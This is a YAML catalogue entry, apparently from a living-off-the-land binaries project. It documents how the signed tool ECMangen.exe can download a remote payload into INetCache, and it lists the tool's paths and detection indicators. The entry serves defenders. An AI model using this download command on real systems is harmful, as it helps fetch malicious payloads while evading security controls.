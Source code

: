 ```yaml
---
Name: ECMangen.exe
Description: Command-line tool for managing certificates in Microsoft Exchange Server.
Author: Avihay Eldad
Created: 2024-04-30
Commands:
  - Command: ECMangen.exe {REMOTEURL}
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft SDKs\Windows\<version>\Bin\ECMangen.exe
  - Path: C:\Program Files (x86)\Microsoft SDKs\Windows\<version>\Bin\x64\ECMangen.exe
  - Path: C:\Program Files\Microsoft\Exchange Server\<version>\Bin\ECMangen.exe
  - Path: C:\Program Files\Microsoft\Exchange Server\Bin\ECMangen.exe
  - Path: C:\Program Files\Microsoft\Exchange Server\ClientAccess\Bin\ECMangen.exe
  - Path: C:\ExchangeServer\Bin\ECMangen.exe
Detection:
  - IOC: URL on a ECMangen command line
  - IOC: ECMangen making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

